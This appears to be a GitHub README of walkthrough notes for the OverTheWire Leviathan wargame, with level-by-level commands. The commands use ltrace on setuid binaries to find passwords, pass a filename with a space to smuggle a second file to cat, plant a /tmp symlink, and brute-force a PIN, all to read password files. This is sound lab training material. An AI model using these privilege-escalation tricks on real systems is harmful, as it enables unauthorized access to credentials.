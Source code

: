 # Leviathan

Visit the [website][1].

Server details:
```
url:   leviathan.labs.overthewire.org
port:  2223
user:  leviathan<level>
```

For convenience use
```bash
./connect.sh <level>
```

### Storing solutions

Once you have a password add it to a `passwords` file in the form `<level> <password`. When you run the `./connect.sh`
script it will print the password for the level if it exists so you can easily copy and paste it.  
For example
```
0 leviathan0
1 1234567890abcdef
2 fedcba0987654321
```

In the case where you get the private key for a level store it in a file named `leviathan<level>_key` e.g. if you have found
the key for `leviathan24` store it in the file `leviathan24_key`. This key will be used automatically when running the
`./connect.sh` script for that level (e.g. `./connect.sh 24`).

The starting password for level `0` is `leviathan0`.

### Levels

There are no instructions for any levels though pages do exist for them
```
https://overthewire.org/wargames/leviathan/leviathan<level>.html
```

##### 0

`grep password ./backups/bookmarks.html`

##### 1

```bash
# we have a setuid check program locally
# check what's being called when check runs
ltrace ./check
# it wants a password which it does a strcmp against so we can just use the string it's comparing against then
# it opens a new shell and we can
cat /etc/leviathan_pass/leviathan_2
```

##### 2

We have a `printfile` executable which is `setuid`. If we try something like `ltrace ./printfile .profile` we see
that we first check if the file is readable before passing it to `cat` like `cat %s`. We can take advantage of the
filename being passed in as is and the fact that it won't correctly intpret strings in the filename!

```bash
mkdir /tmp/andrewflbarnes2
cd /tmp/andrewflbarnes2

touch test
mkdir -p 'test /etc/leviathan_pass/'
touch 'test /etc/leviathan_pass/leviathan2'

~/printfile 'test /etc/leviathan_pass/leviathan2'
```

When we run the final comman the `printfile` program checks if the full string is a readable file - it treats
"`test `" as a directory rather than a file followed by a space.

However when it is passed to the cat command it treats the space as if it is separating two files - so we end
up catting the local `test` file and the actual file we want - `/etc/leviathan_pass/leviathan3` :)

##### 3

Same as level 1 - just run the `setuid` program `level4` with `ltrace` and check what password it wants. Rerun and
provide the password which gives a shell and then cat the password file.
```bash
ltrace ./level3
# find out the password
./level3
# enter the password
id
cat /etc/leviathan_pass/leviathan4
```

##### 4

Nigthmare... seems like there's no easy way to go from bits -> ascii on linux?

.trash/bin outputs the required password in binary (grouped by 8 bits).

```bash
for i in $(./.trash/bin)
do
    echo -ne $(printf "\\x%x\n" $((2#$i)) 2>/dev/null)
done
```

##### 5

Running `ltrace ./leviathan5` we see that that the `setuid` program attempts to read `/tmp.file.log`. So we can try
using a symbolic link here which works
```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
~/leviathan5
```

##### 6

Nice and simple - we just want a 4 digit PIN which will give us access to a shell through the `setuid` program.
```bash
for i in {0..999}
do
    ./leviathan6 $(printf "%04d" $i)
done
for i in {1000..9999}
do
    ./leviathan6 $i
done
```

##### 7

Done!

[1]: <https://overthewire.org/wargames/leviathan/> "Leviathan wargames landing page"
